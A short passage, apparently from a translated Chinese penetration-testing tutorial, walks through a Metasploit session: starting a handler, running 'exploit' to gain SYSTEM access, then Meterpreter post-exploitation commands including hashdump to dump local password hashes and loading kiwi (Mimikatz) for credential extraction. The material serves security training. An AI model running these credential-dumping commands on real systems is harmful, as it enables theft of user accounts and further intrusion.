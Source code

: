 在下面的屏幕截图中，我们还看到我们在本地机器上为处理程序进行了正确的设置：

![](img/8da4e7bb-4d62-4b63-9dcd-379db2859ae7.png)

接下来，运行以下命令：

```
exploit  
```

答对 了我们有另一台主机被完全系统级访问破坏。

运行以下命令：

```
sysinfo # This shows the system's information.
getuid # This shows the level of access to the system.
hashdump # To dump the local hashes and user accounts.
load kiwi # To load the Kiwi Toolset.  
```

![](img/4ae60c63-82a8-4e97-9751-a0e91cdae4df.png)
